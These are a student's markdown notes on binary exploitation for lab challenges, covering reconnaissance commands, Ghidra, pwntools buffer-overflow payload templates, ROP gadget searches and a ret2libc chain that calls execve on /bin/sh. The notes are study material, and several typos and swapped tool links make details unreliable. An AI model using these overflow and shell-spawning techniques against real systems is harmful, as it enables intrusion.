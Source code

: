 ## General guidelines for exploitation from Lecture 2

List the files for the challenge

`ls /challenge`

run the program to try to understand its behaviour

use `strings /challenge/<binary>`  to see if there are any interesting keywords

use `file /challenge/<binary>` to check intial parameters

use `strace /challenge/<binary>` to see all systems calls - this is often better later ro find specific calls to work with.

use `ltrace /challenege/<binary>` to see all 

## Static Analysis tool phase

### Ghidra

New project, import binary, conduct analysis
Look into the functions and check the decomplier for format string, read, write and buffers, follow the prgram flow
Ghidra numbers local variable with the value for how far away from the top of the stack they are in HEX 
e.g. local_48 is 48 hex bytes / 72 Dec bytes away from the top of the stack
e.g. local_8 is 8 hex 8 / 8 Dec bytes away from the top of the stack

Rename known functions

## Command line exploit

Create pwntools exploit template

`pwn template <target binary> > <exploit filename>.py`

Check Binary Security

`pwn checksec <taget buinary>`

Open in GDB

`gdb <target binary`

create a giant input to overflow the buffer

`cyclic 256` pwndbg will fill correctly for 32 or 64 bit programming

set a break point on ret for the vulnerable function

`info functions`
`disassem main`
`dissassem vuln`
`b *vuln+<code line>`

Run the target binary and check the ret address value

Use the cyclic lookup function `cyclic -l <value>` and note the offset value needed to overwrite the RBP 

simple payload if you have a win function using pwn.tools template.
`payload = cyclic(<offset value>) + p64(exe.symbols["<win or target function>")`

Can also be expressed as
`payload = flat([
  cyclic(<offset value>),
  exe.symbols["<win funciton>")
])`

without pwn.tools utilities always use bite string eg
`payload =  b"A"*88 + b"<little endian memory address>"`

Note symbols works when you have a NON PIC binary

## Shellcode
https://www.youtube.com/watch?v=NlPTT4j_78I
https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c

## Gadgets and ROP

Ropper 
https://github.com/jonathansalwan/ROPgadget
use `ropper --file <path to target binary> --search for "<target command - mov, rdi, ret, pop, etc>"`
eg `ropper --file /challenge/classwork --search "syscall"`
eg `ropper --file /challenge/classwork --search "pop rdi"`


ROPGadget
https://github.com/sashs/Ropper
use `ROPgadget --binary <path to binary/<traget function> | grep "<target command - mov, rdi, ret, pop, etc>" `


## Ret2Libc
NOTE: need to cd /chall  know libc version and libc base for this to work with the pwntools rop gadget finder
`rop = ROP([binary, libc])`
`binsh = next(libc.search(b"bin/sh"))`
`rop.execve(binsh, 0, 0)`
`payload = padding + rop.chain()`




 










